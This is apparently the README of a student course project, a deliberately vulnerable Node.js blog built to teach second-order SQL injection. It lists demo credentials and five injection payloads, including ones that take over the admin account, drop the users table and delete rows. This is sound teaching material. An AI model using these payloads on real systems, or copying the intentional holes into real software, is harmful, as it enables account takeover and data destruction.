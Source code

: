 ### TDA602 Course Project - Second-Order SQL Injection

This project demonstrates a second-order SQL injection vulnerability in a blog website.
The code is written in Node.js and SQLite, and this is a self-made blog created and designed by us. We intentionally added some lack of security measures to make the second-order SQL injection attacks possible, allowing us to demonstrate the vulnerability and emphasize the importance of proper security practices when developing web applications.

Users can create new accounts and write blog posts after logging in. Each post can be liked once, 
and the posts are sorted by the number of likes, with the most liked posts appearing at the top. 
As an admin, you have also the privilege to remove these posts.
The second-order injection attack can be performed by registering a new account with a malicious SQL 
command in the username field and then updating the password. Further details are provided below.

## Current Accounts:

Admin - Username: "Admin", Password: "dontHack"

Ava - Username: "Ava", Password: "password1"

JARVIS - Username: "JARVIS", Password: "password2"

Skynet - Username: "Skynet", Password: "password3"


## Second-Order Injection Attacks:

To perform a second-order SQL injection attack, first register a new user with an SQL injection command as the username. 
Then, log in as the new user and update the password. Afterward, the SQL command will be executed.

Examples of second-order SQL injection attacks:

1) Change the Admin's password (not the "Admin’ —" account):

```sql
Admin' --
```

2) Drop all users:

```sql
'; DROP TABLE users --
```

3) Add likes to a specific blog post (replace id with the blog post ID you want to modify, same with amount of likes):

```sql
'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --
```

4) Remove the new account
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) --
```

5) Remove last account and any other you specify
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) OR username = "'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --" --
```


## Images of the blog website:

#### Log in:

<img src="Screenshot 2023-04-17 at 12.33.24.png" alt="My Image" style="max-width: 70%;">

#### Logged in as admin (only difference is the remove button):


<img src="Screenshot 2023-04-17 at 12.34.25.png" alt="My Image" style="max-width: 70%;">

#### Create post and change password:

<img src="Screenshot 2023-04-17 at 12.34.34.png" alt="My Image" style="max-width: 70%;">

